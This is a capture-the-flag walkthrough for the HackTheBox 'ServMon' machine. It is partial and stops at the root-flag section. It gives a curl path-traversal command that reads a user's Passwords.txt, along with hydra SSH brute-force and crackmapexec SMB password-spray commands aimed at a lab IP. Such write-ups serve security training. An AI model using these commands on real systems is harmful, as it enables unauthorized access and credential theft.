 ## ServMon

Difficulty: Easy
https://app.hackthebox.com/machines/ServMon

### User Flag

```
sudo rustscan -a 10.10.10.184 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://user-images.githubusercontent.com/58514930/234736772-f5c1a23e-9df3-49b3-aa86-64afa0e779ed.png)

<br>

Anonymous FTP login is possible.

Possible users: Nadine and Nathan.

![ftp notes](https://user-images.githubusercontent.com/58514930/234736874-ea9dd4b9-a06b-4ea0-a3af-0538994af0f3.png)

<br>

Website uses NVMS - 1000.

![website](https://user-images.githubusercontent.com/58514930/234736930-1967f399-b33c-4993-b9b2-61feb2101049.png)

<br>

Find this [public exploit](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py).

```
curl http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt --path-as-is
```

![gettingPasswords](https://user-images.githubusercontent.com/58514930/234737079-b4a78aef-8cd3-4f02-b199-66f5b257b6d7.png)

Used Hydra to find the correct credentials on SSH, buy could also enumerate on smb with crackmapexec.

```
hydra -l nadine -P password.txt 10.10.10.184 ssh -V
crackmapexec smb 10.10.10.184 -u nadine -p password.txt
```

![hydraSSH](https://user-images.githubusercontent.com/58514930/234737211-b98e82ad-d4b3-44f0-8fcb-409ba587e63a.png)

![smbEnumeration](https://user-images.githubusercontent.com/58514930/234737227-a57d936d-bd0d-4e52-b613-381a948a096f.png)

<br>

Just login into SSH with this credentials and get the user flag.

### Root Flag

Accessing port 8443, NSClient++ 0.5.2.35 is being used.

There is a [public exploit](https://www.exploit-db.com/exploits/46802) to this.

Lets follow it, so first we find the password.


